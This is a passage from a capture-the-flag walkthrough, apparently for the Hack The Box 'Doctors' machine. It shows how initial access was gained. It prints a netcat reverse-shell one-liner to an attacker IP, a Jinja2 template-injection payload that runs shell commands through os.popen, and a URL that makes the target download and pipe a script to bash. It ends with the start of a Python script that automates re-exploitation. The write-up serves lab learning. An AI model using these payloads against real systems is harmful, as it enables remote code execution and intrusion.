 ## Initial Foothold

After confirming that a Jinja2 payload should be used, would be possible to get a reverse shell on the box using the following process:

- In a folder in the attacker machine, created a payload file containing the string to be used as payload to get a reverse shell.

  ```
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
  ```
  
- Then hosted a http server using python3 by running the command below from the same directory as the recently created file.

  ```
    sudo python3 -m http.server 80
  ```
  
- On the portal, created a post containing the following string on the title, obtained from previously mentioned PayloadsAllTheThings site. This one specially is very interesting for this situation, which allows us to get the **input** parameter from the GET request, so we would be able to change the commands to be issue to the system very easily.

  ```
  {% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}{% endraw %}
  ```
  
- Started listener using netcat by running the command below, selecting the same port defined in the payload file.

  ```
  nc -lnvp 4443
  ```

- Then made a request to the portal using the archive url appended by the command I wanted to execute.

  ```
  http://doctors.htb/archive?input=curl%20-L%20http://10.10.10.10/payload%20|%20bash
  ```

- And voilà! A reverse shell was returned :smiley:

![image-20210117191626475](https://i.imgur.com/TyHFL9D.png){: .align-center}

**Bonus** To make it easier regain initial foothold, once user account has a short validity of 20 minutes, I've created this python3 script to help on this task :smiley:. To use it just set up the listener and python web server, then the script will recreate the user, the message and then make the request to get the reverse shell again
{: .notice--info}

```python
#!/usr/bin/python3

import requests

url = 'http://doctors.htb'
username = 'dummy'
password = 'P@ssw0rd'
ip = '10.10.10.10'
email = username+'@doctors.htb'

# Create new session
s = requests.session()

# Make initial request to get required cookies
r = s.get(url)

```
